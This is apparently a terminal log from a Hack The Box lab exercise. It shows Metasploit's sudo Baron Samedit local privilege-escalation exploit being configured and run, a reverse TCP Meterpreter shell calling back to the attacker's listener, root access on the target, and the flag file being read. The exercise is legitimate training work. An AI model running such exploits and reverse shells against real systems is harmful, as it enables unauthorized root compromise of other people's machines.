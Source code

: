 ```bash


View the full module info with the info, or info -d command.

msf6 exploit(linux/local/sudo_baron_samedit) > set SESSION 2
SESSION => 2
msf6 exploit(linux/local/sudo_baron_samedit) > set LHOST 10.10.14.185
LHOST => 10.10.14.185
msf6 exploit(linux/local/sudo_baron_samedit) > set LPORT 9000
LPORT => 9000
msf6 exploit(linux/local/sudo_baron_samedit) > run
[*] Started reverse TCP handler on 10.10.14.185:9000 
[!] SESSION may not be compatible with this module:
[!]  * incompatible session architecture: x86
[*] Running automatic check ("set AutoCheck false" to disable)
[!] The service is running, but could not be validated. sudo 1.8.31 may be a vulnerable build.
[*] Using automatically selected target: Ubuntu 20.04 x64 (sudo v1.8.31, libc v2.31)
[*] Writing '/tmp/djZHsBdVV.py' (763 bytes) ...
[*] Writing '/tmp/libnss_dqk6x/B .so.2' (548 bytes) ...
[*] Sending stage (3045380 bytes) to 10.129.105.220
[+] Deleted /tmp/djZHsBdVV.py
[+] Deleted /tmp/libnss_dqk6x/B .so.2
[+] Deleted /tmp/libnss_dqk6x
[*] Meterpreter session 3 opened (10.10.14.185:9000 -> 10.129.105.220:42176) at 2025-01-28 14:07:03 +0100

meterpreter > getuid
Server username: root
meterpreter > cd /root
meterpreter > ls
Listing: /root
==============

Mode              Size   Type  Last modified              Name
----              ----   ----  -------------              ----
100600/rw-------  178    fil   2022-05-16 17:35:30 +0200  .bash_history
100644/rw-r--r--  3106   fil   2022-05-16 17:34:51 +0200  .bashrc
040700/rwx------  4096   dir   2022-05-16 15:46:07 +0200  .cache
040700/rwx------  4096   dir   2022-05-16 15:46:06 +0200  .config
040755/rwxr-xr-x  4096   dir   2022-05-16 15:46:07 +0200  .local
100644/rw-r--r--  161    fil   2019-12-05 15:39:21 +0100  .profile
100644/rw-r--r--  75     fil   2022-05-16 10:45:33 +0200  .selected_editor
040700/rwx------  4096   dir   2021-10-06 19:37:09 +0200  .ssh
100600/rw-------  13300  fil   2022-05-16 17:34:51 +0200  .viminfo
100644/rw-r--r--  291    fil   2022-05-16 15:51:29 +0200  .wget-hsts
100644/rw-r--r--  24     fil   2022-05-16 17:18:40 +0200  flag.txt
040755/rwxr-xr-x  4096   dir   2021-10-06 19:37:19 +0200  snap

meterpreter > cat flag.txt 
HTB{5e55ion5_4r3_sw33t}
```
